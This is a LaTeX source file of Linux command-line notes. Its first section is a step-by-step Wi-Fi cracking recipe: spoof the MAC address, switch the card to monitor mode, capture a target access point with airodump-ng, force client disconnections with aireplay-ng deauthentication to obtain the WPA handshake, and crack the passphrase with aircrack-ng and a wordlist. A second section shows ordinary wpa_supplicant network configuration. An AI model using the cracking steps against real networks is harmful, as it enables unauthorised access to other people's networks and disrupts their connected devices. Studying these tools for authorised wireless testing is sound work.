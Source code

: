 \documentclass[10pt, a4paper, onecolumn, openany]{book}         %
\begin{document}
\subsection{Find ESSID+PSK}
\begin{Verbatim}[commandchars=\\\{\}]
0. List wireless interfaces:
    \textcolor{root}{root#} \textcolor{command}{iw} dev

0.5 Change MAC:
    \textcolor{root}{root#} \textcolor{command}{macchanger} -Ab wlan0

1. Wireless NIC to monitoring mode:
    \textcolor{root}{root#} \textcolor{command}{iw} <wlan0> set type <monitor|managed>
    \textcolor{root}{root#} \textcolor{command}{rfkill} unblock <ID>
    \textcolor{root}{root#} \textcolor{command}{ip} l set <wlan0> up

2. Search for BSSID (show WPS, show Uptime, show ab = 2.4 GHz, g = 5GHz):
    \textcolor{root}{root#} \textcolor{command}{airodump-ng} [-W] [-U] [--band abg] <wlan0mon>

!!! Cracking - monitor BSSID (keep running):
    \textcolor{root}{root#} \textcolor{command}{airodump-ng} -c <CHANNEL> --bssid <BSSID> -w <CAPTURE-FILE> <wlan0mon>
!!! Deauthentication to get handshake:
    \textcolor{root}{root#} \textcolor{command}{aireplay-ng} --deauth=<SECONDS> -a <AP BSSID> -c <Client MAC>
    [--ignore-negative-one] <wlan0mon>
!!! Crack with handshake:
    \textcolor{root}{root#} \textcolor{command}{aircrack-ng} --bssid <BSSID> -w <DICTIONARY> <CAPTURE-FILE>
    
3. Return from monitor mode:
    \textcolor{root}{root#} \textcolor{command}{airmon-ng} stop <wlan0mon>
\end{Verbatim}

\subsection{Create config file for ESSID}
\begin{Verbatim}[commandchars=\\\{\}]
1. SSID + Password:
A) Edit via wpa\_passphrase:
    \textcolor{root}{root#} \textcolor{command}{wpa_passphrase} '<ssid>' '[passphrase]'
    
B) File \textcolor{file}{/etc/wpa_supplicant/wpa\_supplicant.conf}:
\textcolor{comment}{Lower prio = preffered}
\textcolor{comment}{# WPA-PSK network config}
network=\{
    ssid="<SSID>"
    scan_ssid=1
    key_mgmt=WPA-PSK
    psk="<PASSWORD>"
    priority=1
\}

network=\{
    ssid=""
    key_mgmt=NONE
    priority=2
\}

\end{Verbatim}
\end{document}

